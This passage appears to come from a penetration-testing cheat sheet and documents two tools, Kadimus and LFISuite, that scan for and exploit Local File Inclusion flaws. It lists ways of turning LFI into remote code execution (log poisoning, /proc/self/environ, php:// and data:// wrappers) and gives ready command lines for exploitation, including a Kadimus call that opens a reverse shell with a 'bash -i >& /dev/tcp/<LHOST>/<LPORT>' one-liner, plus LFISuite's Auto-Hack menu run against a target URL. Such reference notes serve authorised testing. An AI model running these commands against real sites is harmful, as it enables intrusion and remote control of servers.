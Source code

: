 `Kadimus` is CLI tool to automatically scan and exploit Local File Inclusion
vulnerabilities using the following methods of attack:
  - /var/log/auth.log RCE
  - /proc/self/environ RCE
  - php://input RCE
  - data://text RCE

```
# Scan for LFI vulnerability
kadimus -t 20 [--cookie <COOKIE>] -u <URL>

# Simple command shell
kadimus -u <URL> --parameter <VULNERABLE_PARAMETER> -T <auth | data | environ | input> --shell
# Reverse shell
kadimus -u <URL> --parameter <VULNERABLE_PARAMETER> -T <auth | data | environ | input> -l <LPORT> -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1' --retry-times 0
kadimus -u <URL> --parameter <VULNERABLE_PARAMETER> -T <auth | data | environ | input> -l <LPORT> -c '<SYSTEM_REVSHELL_COMMAND>' --retry-times 0
```

###### LFISuite

`LFISuite` is CLI multi-platforms (Windows, Linux and OS X) tool to
automatically scan and exploit Local File Inclusion vulnerabilities.
It provides a more exhaustive list of possible log files locations and also
offers more attacks methods that `Kadimus`:
  - /proc/self/environ
  - php://filter
  - php://input
  - /proc/self/fd
  - access log
  - phpinfo
  - data://
  - expect://

All methods above can be tried automatically by specifying the `Auto-Hack`
modality. If a LFI vulnerability is detected, the `reverseshell` command can be
used to start a reverse shell.

```
python lfisuite.py

--------------------
 1) Exploiter       
 2) Scanner         
 x) Exit            
--------------------
-> 1

____________________________

    Available Injections    
____________________________

 [...]
 9) Auto-Hack  			   
 x) Back 				   
____________________________

 -> 9

[*] Enter the URL you want to try to hack (ex: 'http://site/vuln.php?id=') -> <URL>
```
